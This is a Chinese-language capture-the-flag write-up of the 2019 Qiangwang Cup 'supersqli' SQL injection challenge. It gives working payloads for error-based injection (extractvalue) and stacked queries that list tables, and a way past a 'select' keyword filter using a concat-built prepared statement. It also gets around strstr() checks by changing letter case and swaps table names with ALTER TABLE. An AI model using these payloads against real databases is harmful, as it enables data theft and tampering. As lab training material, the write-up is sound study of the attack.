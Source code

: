 # 强网杯2019-随便注

在BUUCTF上web板块第二题发现的该题目，本人对sql注入漏洞比较关注，所以仔细分析一下本题目

首先访问是这样的

![image-20200831103353461](pictures/image-20200831103353461.png)

提交"1"的时候是这样的

<img src="pictures/image-20200831103448521.png" alt="image-20200831103448521" style="zoom: 50%;" /> 

加入一个单引号(为了方便观察，burpsuit上测试)，报错

<img src="pictures/image-20200831103754316.png" alt="image-20200831103754316" style="zoom:50%;" />

加两个单引号，正常。由此判断存在注入。

![image-20200831103834894](pictures/image-20200831103834894.png)

再看报错的内容，报错提示MariaDB数据库，MariaDB数据库管理系统是MySQL的一个分支，主要由开源社区在维护，因此MariaDB的注入，我们当成是MySQL的注入就OK。

既然有报错，我们首先想到的是MySQL报错注入。

### 报错注入测试

不管三七二十一先用floor()打一波,结果显示过滤掉了select。

```
' and (select count(*) from information_schema.tables group by concat(0x7e,(select version()),0x7e,floor(rand(0)*2)))--+
```

![image-20200831130159070](pictures/image-20200831130159070.png)

既然不让用，就不用，xpath报错安排上。如下图，成功注入出了版本信息。

```
1'+and+extractvalue(1,concat(0x7e,(@@version),0x7e))
```

![image-20200831130712929](pictures/image-20200831130712929.png)

当前数据库也出来了

![image-20200831130836801](pictures/image-20200831130836801.png)

用户是root

![image-20200831131003365](pictures/image-20200831131003365.png)

不能用select就很烦呀。还是得注入出其他数据才能获取flag，绕过开始了，

### 绕过测试

我们在select前后加上正常的字符，发现还是被拦截了，显然这是正则硬匹配字符串。所以注释加换行的思路可以宣告不可用。

![image-20200831132845922](pictures/image-20200831132845922.png)

想改为POST数据包，用分块和编码绕过也是不行，不支持用POST传输数据。这条路也不通了。

再能想到的方法就是利用正则回溯法，用超常字符串绕过。但是在openresty下是行不通的，有最大长度限制。

![image-20200831134505731](pictures/image-20200831134505731.png)



放弃了绕过的方式。

翻阅了一下，看writeup说堆叠查询。于是开始了堆叠查询之路

### 堆叠查询

堆叠查询就是在“；”之后插入任意的SQL语句。

**首先要知道堆叠查询支持的场景**

SQL Server 支持

MySQL 5 及之后支持

PostgreSQL支持

<u>Oracle不支持堆叠查询。</u>



通过上面的查询知道这里MariaDB是10.3.18，猜想应该是基于MySQL5之后。试了再说。

```
1';show tables;-- 
```

查询所有的表，共发现两个，1919810931114514和words。

![image-20200831140213561](pictures/image-20200831140213561.png)

分别查看两个表的列。

注：*在mysql中，对表名为纯数字的表进行操作时，要在表名前后加上反引号*

```
1';show columns from `1919810931114514`;-- 
1';show columns from words;-- 
这里也可以用desc。
1';desc words;--
```

![image-20200831140731774](pictures/image-20200831140731774.png)

![image-20200831141230792](pictures/image-20200831141230792.png)

由上图可知，flag在“1919810931114514”表中。到这我们预编译就可以查出flag了，预编译语句如下。

```
set @sql = CONCAT('se','lect * from `1919810931114514`;');//通过concat拼接绕过select检测
prepare flag from @sql;
EXECUTE flag;
```

但是远远没有这么简单，出现了strstr()报错，不应该出现prepare。

![image-20200831142614753](pictures/image-20200831142614753.png)

于是网上搜索strstr()绕过，首先就出现了大小写绕过。果断把prepare改成Prepare。嘻嘻，成功拿到flag

![image-20200831142846216](pictures/image-20200831142846216.png)

除此之外，网上的大多数writeup是通过修改表名来获取flag的，这里也复现一下

通过1' or '1'='1来获取所有当前表的内容并没有flag字段，又由于总共只有两个表。由此可知，当前表是words，如果不用select来查询其他表的内容呢？通过修改表名的方式来实现。将当前表改为其他表名，将“1919810931114514”改为“words"那么查询当前表实际上就是查询的“1919810931114514”表的内容。

![image-20200831143724159](pictures/image-20200831143724159.png)

```
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);//将字段名flage改为原先的id。

总的语句
1';alter+table+words+rename+to+words1;alter+table+`1919810931114514`+rename+to+words;alter+table+words+change+flag+id+varchar(50);
```

![image-20200831144928148](pictures/image-20200831144928148.png)

用' or '1'='1获取所有结果获取到了flag。

![image-20200831144957549](pictures/image-20200831144957549.png)

### 源码审查

审查一下源码：https://github.com/glzjin/qwb_2019_supersqli/blob/master/files/html/index.php

使用了multi_query()来执行多条sql语句。![image-20200831152351395](pictures/image-20200831152351395.png)



知识点总结：

1. 在mysql中，对表名为纯数字的表进行操作时，要在表名前后加上反引号
2. mysql查询列名show columns from words
3. desc查询表结构desc words
4. 通过预编译绕过关键字过滤。
5. strstr()可以用大小写绕过。
6. multi_query()可以执行多条sql语句，造成堆叠查询，审查源码的时候得注意。